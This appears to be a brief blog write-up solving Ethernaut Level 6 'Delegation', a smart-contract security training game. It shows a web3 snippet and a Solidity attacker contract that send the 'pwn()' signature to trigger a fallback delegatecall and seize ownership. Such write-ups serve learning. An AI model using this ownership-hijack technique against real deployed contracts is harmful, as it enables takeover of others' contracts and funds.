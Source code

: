 +++
title = 'Ethernaut Level 6 - Delegation'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Trigger a fallback to win'
tags = [ 'writeups' , 'blockchain' ]
+++
1. With sendTransaction, we are able to trigger the fallback
2. Using abi.encodeFunctionSignature, we have the correct structure for delegateCall
```js
signature = web3.eth.abi.encodeFunctionSignature("pwn()");
await sendTransaction({from: player, to:contract.address, data: signature}); 
```

For some reason if we write a contract that does this, it sets `contract.owner` to the address of the attacking contract and not the player:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface Delegation { }

contract Hack {
    Delegation level6 = Delegation(0x8B659A31E6b5C62C6542FB5175b8cEa6D42A620e);

    function win() public {
        (bool success, ) = address(level6).call(abi.encodeWithSignature("pwn()"));
    }
}
```
